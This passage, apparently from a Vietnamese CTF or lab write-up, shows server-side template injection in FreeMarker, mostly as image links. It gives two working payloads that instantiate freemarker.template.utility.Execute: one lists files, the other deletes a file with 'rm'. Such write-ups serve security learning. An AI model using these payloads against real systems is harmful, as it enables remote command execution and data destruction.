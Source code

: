 Nhưng khi thực hiện lại xảy ra lỗi…

Tham khảo từ: [https://hackmd.io/@to016/By8xd9TAj](https://hackmd.io/@to016/By8xd9TAj)

Thử tạo mới 1 đối tượng `freemarker.template.utility.Execute()`

![image.png](Images/image%2016.png)

![image.png](Images/image%2017.png)

Payload: `${"freemarker.template.utility.Execute"?new()("ls")}`

![image.png](Images/image%2018.png)

![image.png](Images/image%2019.png)

Payload: `${"freemarker.template.utility.Execute"?new()("rm morale.txt")}`

![image.png](Images/image%2020.png)
